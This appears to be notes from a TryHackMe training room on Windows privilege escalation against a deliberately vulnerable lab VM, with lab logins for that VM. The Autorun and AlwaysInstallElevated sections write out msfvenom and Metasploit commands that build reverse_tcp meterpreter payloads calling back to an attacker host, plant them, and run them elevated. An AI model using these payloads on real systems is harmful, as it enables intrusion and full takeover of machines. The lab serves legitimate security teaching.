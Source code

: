 # Windows PrivEsc Arena

Students will learn how to escalate privileges using a very vulnerable Windows 7 VM. RDP is open. Your credentials are user:password321

* [Windows PrivEsc Arena](https://tryhackme.com/room/windowsprivescarena)

## Connecting to TryHackMe network

To complete this room and access the vulnerable Windows machine, you need to first connect to TryHackMe's VPN. If you've not done this before, first complete the [OpenVPN room](https://tryhackme.com/room/openvpn) and learn how to connect.

## Deploy the vulnerable machine

This room will teach you a variety of Windows privilege escalation tactics, including kernel exploits, DLL hijacking, service exploits, registry exploits, and more. This lab was built utilizing Sagi Shahar's privesc workshop ([https://github.com/sagishahar/lpeworkshop](https://github.com/sagishahar/lpeworkshop)) and utilized as part of The Cyber Mentor's Windows Privilege Escalation Udemy course ([http://udemy.com/course/windows-privilege-escalation-for-beginners](http://udemy.com/course/windows-privilege-escalation-for-beginners)).

All tools needed to complete this course are on the **user** desktop (C:\Users\user\Desktop\Tools).

Let's first connect to the machine.  RDP is open on port 3389.  Your credentials are:

**username**: user
**password**: password321

For any administrative actions you might take, your credentials are:

**username**: TCM
**password**: Hacker123

1. Deploy the machine and log into the user account via RDP
2. Open a command prompt and run 'net user'. Who is the other non-default user on the machine?

## Registry Escalation - Autorun

**Detection**

**Windows VM**

1. Open command prompt and type: `C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe`
2. In Autoruns, click on the ‘Logon’ tab.
3. From the listed results, notice that the “My Program” entry is pointing to “C:\Program Files\Autorun Program\program.exe”.
4. In command prompt type: `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"`
5. From the output, notice that the “Everyone” user group has “FILE_ALL_ACCESS” permission on the “program.exe” file.


**Exploitation**

**Kali VM**

1. Open command prompt and type: `msfconsole`
2. In Metasploit (msf > prompt) type: `use multi/handler`
3. In Metasploit (msf > prompt) type: `set payload windows/meterpreter/reverse_tcp`
4. In Metasploit (msf > prompt) type: `set lhost [Kali VM IP Address]`
5. In Metasploit (msf > prompt) type: `run`
6. Open an additional command prompt and type: `msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe`
7. Copy the generated file, program.exe, to the Windows VM.

**Windows VM**

1. Place program.exe in ‘C:\Program Files\Autorun Program’.
2. To simulate the privilege escalation effect, logoff and then log back on as an administrator user.

**Kali VM**

1. Wait for a new session to open in Metasploit.
2. In Metasploit (msf > prompt) type: `sessions -i [Session ID]`
3. To confirm that the attack succeeded, in Metasploit (msf > prompt) type: getuid

---

1. Click 'Completed' once you have successfully elevated the machine

## Registry Escalation - AlwaysInstallElevated

**Detection**

**Windows VM**

1. Open command prompt and type: reg query HKLM\Software\Policies\Microsoft\Windows\Installer
2. From the output, notice that “AlwaysInstallElevated” value is 1.
3. In command prompt type: reg query HKCU\Software\Policies\Microsoft\Windows\Installer
4. From the output, notice that “AlwaysInstallElevated” value is 1.

**Exploitation**

**Kali VM**

1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run
6. Open an additional command prompt and type: msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f msi -o setup.msi
7. Copy the generated file, setup.msi, to the Windows VM.

**Windows VM**

1. Place ‘setup.msi’ in ‘C:\Temp’.
2. Open command prompt and type: msiexec /quiet /qn /i C:\Temp\setup.msi

Enjoy your shell! :)

## Service Escalation - Registry
## Service Escalation - Executable Files
## Privilege Escalation - Startup Applications
## Service Escalation - DLL Hijacking
## Service Escalation - binPath
## Service Escalation - Unquoted Service Paths
## Potato Escalation - Hot Potato
## Password Mining Escalation - Configuration Files
## Password Mining Escalation - Memory
## Privilege Escalation - Kernel Exploits